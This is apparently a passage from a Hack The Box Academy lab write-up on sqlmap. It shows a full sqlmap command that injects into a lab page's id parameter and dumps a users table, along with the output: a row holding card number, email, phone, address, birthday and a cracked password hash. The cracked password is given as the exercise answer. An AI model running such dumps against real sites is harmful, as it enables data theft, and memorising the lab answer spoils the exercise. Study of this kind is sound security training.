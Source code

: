 ```

| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
[SNIP]
```

```javascript
--batch -D testdb -T users -passwords --dump
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T users -passwords --dump

[SNIP]

Database: testdb
Table: users
[32 entries]
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | email                       | phone        | name              | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+

[SNIP]

| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |

[SNIP]
```

**Answer**

```
Enizoom1609
```

---

## Exercise - Bypassing Web Application Protections
